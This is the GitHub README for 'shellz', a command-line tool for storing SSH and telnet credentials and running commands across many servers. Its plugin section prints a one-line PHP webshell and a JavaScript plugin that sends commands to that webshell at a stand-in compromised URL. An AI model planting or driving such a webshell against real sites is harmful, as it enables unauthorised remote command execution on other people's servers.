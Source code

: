 <p align="center">
  <img alt="shellz" src="https://raw.githubusercontent.com/evilsocket/shellz/master/logo.png" />
  <p align="center">
    <a href="https://github.com/evilsocket/shellz/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/evilsocket/shellz.svg?style=flat-square"></a>
    <a href="https://github.com/evilsocket/shellz/blob/master/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://travis-ci.org/evilsocket/shellz"><img alt="Travis" src="https://img.shields.io/travis/evilsocket/shellz/master.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/evilsocket/shellz"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/evilsocket/shellz?style=flat-square&fuckgithubcache=1"></a>
  </p>
</p>

`shellz` is a small utility to keep track of your connection credentials, servers and run commands on multiple machines at once. It supports `ssh`, `telnet` with more shell types coming soon!

## Installation

A [precompiled version is available for each release](https://github.com/evilsocket/shellz/releases), alternatively you can use the latest version of the source code from this repository in order to build your own binary.

### From Sources

Make sure you have a correctly configured **Go >= 1.8** environment, that `$GOPATH/bin` is in `$PATH` and then:

    $ go get -u github.com/evilsocket/shellz/cmd/shellz

This command will download shellz, install its dependencies, compile it and move the `shellz` executable to `$GOPATH/bin`.

## How to Use

The tool will use the `~/.shellz` folder to load your identities and shells json files, running the command `shellz` the first time will create the folder and the `idents` and `shells` subfolders for you. Once both `~/.shellz/idents` and `~/.shellz/shells` folders have been created, you can start by creating your first identity json file, for instance let's create `~/.shellz/idents/default.json` with the following contents:

```json
{
    "name": "default",
    "username": "evilsocket",
    "key": "~/.ssh/id_rsa"
}
```

As you can see my `default` identity is using my SSH private key to log in the `evilsocket` user, alternatively you can specify a `"password"` field instead of a `"key"`.

Now let's create our first shell json file ( `~/.shellz/shells/media.json` ) that will use the `default` identity we just created to connect to our home media server (called `media.server` in our example):

```json
{
    "name": "media-server",
    "host": "media.server",
    "port": 22,
    "identity": "default"
}
```

By default, shells are considered `ssh`, but also the `telnet` protocol is supported:

```sh
cat ~/.shellz/shells/tnas.json
```

```json
{
    "name": "tnas",
    "host": "tnas.local",
    "port": 23,
    "identity": "admin-tnas",
    "type": "telnet"
}
```

### Plugins

Instead of the two default types, `ssh` and `telnet`, you can specify a custom name, in which case shellz will try to use a user plugin. Let's start by creating a new shell json file `~/.shellz/shells/custom.json` with the following contents:

```json
{
    "name": "custom",
    "host": "http://www.imvulnerable.gov/uploads/sh.php",
    "identity": "empty",
    "port": 80,
    "type": "mycustomshell"
}
```

As you probably noticed, the `host` field is the full URL of a very simple PHP webshell uploaded on some website:

```php
<?php system($_REQUEST["cmd"]); die; ?>
```

Also, the `type` field is set to `mycustomshell`, in this case `shellz` will try to load the file `~/.shellz/plugins/mycustomshell.js` and use it to create a session and execute a command. 

A `shellz` plugin must export the `Create`, `Exec` and `Close` functions, this is how `mycustomshell.js` looks like:

```js
var headers = {
    'User-Agent': 'imma-shellz-plugin'
};

/*
 * The Create callback is called whenever a new command has been queued
 * for execution and the session should be initiated, in this case we 
 * simply return the main context object, but it might be used to connect
 * to the endpoint and store the socket on a more complex Object.
 */
function Create(ctx) {
    // log("Create(" + ctx + ")");
    return ctx;
}

/*
 * Exec is called for each command, the first argument is the context object
 * returned from the Create callback, while the second is a string with the
 * command itself.
 */
function Exec(ctx, cmd) {
    // log("running " + cmd + " on " + ctx.Host);

    /* 
     * OR
     *
     * var resp = http.Post(ctx.Host, headers, {"cmd":cmd});
     */
    var resp = http.Get(ctx.Host + "?cmd=" + cmd, headers)

    return resp.Error ? resp.Error : resp.Raw;
}

/*
 * Used to finalize the state of the object (close sockets, etc).
 */
function Close(obj) {
    // log("Close(" + ctx + ")");
}
```

### Examples

List available identities and shells:

    shellz -list

Run the command `id` on each shell:

    shellz -run id

Run the command `id` on a single shell named `machineA`:

    shellz -run id -on machineA

Run the command `id` on `machineA` and `machineB`:

    shellz -run id -on 'machineA, machineB'

Run the command `uptime` on every shell and append all outputs to the `all.txt` file:

    shellz -run uptime -to all.txt

Run the command `uptime` on every shell and save each outputs to a different file using per-shell data:

    shellz -run uptime -to "{{.Identity.Username}}_{{.Name}}.txt"

For a list of all available flags and some usage examples just type `shellz` without arguments.

## License

Shellz was made with ♥  by [Simone Margaritelli](https://www.evilsocket.net/) and it's released under the GPL 3 license.

